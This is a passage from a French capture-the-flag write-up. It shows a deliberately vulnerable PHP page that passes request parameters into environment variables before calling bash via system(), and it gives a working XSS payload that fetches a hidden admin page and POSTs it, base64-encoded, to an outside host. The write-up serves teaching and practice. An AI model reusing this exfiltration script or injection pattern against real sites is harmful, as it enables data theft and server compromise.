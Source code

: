 Une fonction system($\_GET) est commentée, elle ne pourra pas être utilisée. Les seules parties utiles de cette page sont alors :

```php
<?php
//I will use this to run specific binaries
foreach($_REQUEST['envs'] as $key => $val){
	 putenv("{$key}={$val}");
}?>
<?php
 system('echo $(bash --version)');
?>

```

De plus la version de bash présente peut être obtenue via la XSS :

```javascript
<script>
  var pageUrl =
  '/admin_interface_JntjKPI5Awrqih_cant_guess/the_impossible_to_guess_webpage_dedicated_to_miley.php';
  var remoteUrl = 'http://remote.shoxxdj.fr'; fetch(pageUrl) .then((response)=>
  {response
    .text()
    .then((value) => {
      fetch(remoteUrl + "/success", {
        method: "POST",
        headers: {
          "Content-Type": "text/plain",
        },
        body: "toto:" + btoa(value),
      })
        .then((res) => {
          console.log(res);
        })
        .catch((err) => {
          console.log(err);
        });
    })
    .catch((err) => {
      console.log(err);
    })}) .catch((err)=>
  {fetch(remoteUrl + "/error")
    .then((res) => {
      console.log(res);
    })
    .catch((err) => {
      console.log(err);
    })})
</script>
```

![](/medias/writeups/miley-a-ctf-challenge-story/image-13-1024x63.png)
